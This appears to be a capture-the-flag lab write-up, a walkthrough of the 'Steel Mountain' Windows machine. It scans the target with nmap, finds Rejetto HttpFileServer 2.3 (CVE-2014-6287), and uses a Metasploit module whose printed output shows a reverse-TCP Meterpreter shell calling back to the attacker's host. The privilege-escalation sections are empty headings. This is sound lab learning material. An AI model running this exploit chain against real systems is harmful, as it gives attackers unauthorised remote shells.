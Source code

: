 # Steel Mountain
*  Enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate privileges to Administrator.
## Introduction
* Browse to `http://10.10.190.37`.
* View page source.
```
<h3>Employee of the month</h3>
<img src="/img/BillHarper.png" style="width:200px;height:200px;"/>
```
## Initial Access
* Get an initial shell.
#### 1. Scan target with nmap.
```
sudo nmap -sS -sV -oN 10.10.190.37_scan.nmap 10.10.190.37
```
* Target is running another HTTP server on port 8080.
* Browse to `http:10.10.190.37:8080`.
* View page source.
```
<fieldset id='serverinfo'>
		<legend><img src="/~img0"> Server information</legend>
		<a href="http://www.rejetto.com/hfs/">HttpFileServer 2.3</a>
		<br />Server time: 2/22/2024 5:09:32 AM
		<br />Server uptime: 00:40:23
	</fieldset>
```
* "Rejetto HTTP File Server" is running on web server.
#### 2. Exploit File Server.
* Search exploit-db for exploits affecting file server version.
  * File server is vulnverable to https://nvd.nist.gov/vuln/detail/CVE-2014-6287.
* Use Metasploit to get an Inital Shell.
```
search rejetto http file server 2.3 type:exploit

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
set rhosts 10.10.190.37
set rport 8080
exploit

*] Started reverse TCP handler on 10.10.132.215:4444 
[*] Using URL: http://10.10.132.215:8080/AHrBVKMyZam
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /AHrBVKMyZam
[*] Sending stage (175686 bytes) to 10.10.190.37
[!] Tried to delete %TEMP%\eojOuZkUFsb.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.132.215:4444 -> 10.10.190.37:49261) at 2024-02-22 13:24:25 +0000
[*] Server stopped.

getuid
Server username: STEELMOUNTAIN\bill
```
* User flag is located in `C:\Users\bill\Desktop\user.txt`.
## Privilege Escalation
## Access and Escalation Without Metasploit
